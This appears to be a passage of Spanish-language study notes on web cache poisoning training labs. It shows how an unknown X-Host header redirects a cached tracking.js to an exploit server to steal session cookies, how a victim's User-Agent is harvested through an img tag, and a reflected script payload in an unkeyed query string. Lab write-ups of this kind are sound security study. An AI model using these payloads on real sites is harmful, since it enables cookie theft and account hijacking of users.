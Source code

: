 Remove the `cb=123` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.

### LAB: Web cache poisoning using an unknown header

El endpoint de post nos demuestra desde param miner el parametro header que adivinó fue `x-host`

![[Pasted image 20250220112141.png]]

Desde el endpoint home / que es el que carga el /resources/js/tracking.js se encontró el header x-host seguramente por ahí podremos pasarle nuestro dominio de server exploit, creamos un caché buster en el endpoint y luego dejamos el resources tracking.js

XSS **post coment** to retrieve the user agent

```js
<img src="exploit-server">

// ------- EN EL EXPLOIT SERVER --------
//with a payload of alert(document.cookie) on the exploit server
```

Al server exploit nos llega el user agent de la victima, lo tomamos y lo dejamos en la request raiz `GET / HTTP/1.1`

```js
...
X-Host: exploit-ID-EXPLOIT.exploit-server.net
Connection: close
User-Agent: ...victim User Agent...

//Envenamos la request y la enviamos hasta que podamos ver que el lab se pasa a solved eso significa que el user victima ingreso al home y le retornó el alert, ahora bien para probarlo dejar un show response in browser de la respuesta con la caché en hit con una edad temprana y esa respuesta en el navegador constantemente recargarla al tiempo que debemos tirar la request desde repeater hasta que nos de en solved.
```

### LAB: Web cache poisoning via an unkeyed query string `XSS`

* Solucion rapida: 
	*  Use Origin: header as a cache buster query /?evil=test gets reflected on the output add payload
		```GET /?evil='/><script>alert(1)</script>```

* Solucion conceptual paso a paso: 

Necesitamos usar algunos headers de sondeo como caches busters para no afectar la pagina principal de los usuarios, algunos que se pueden utilizar son:

```jsx
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: <https://cachebuster.vulnerable-website.com>
```
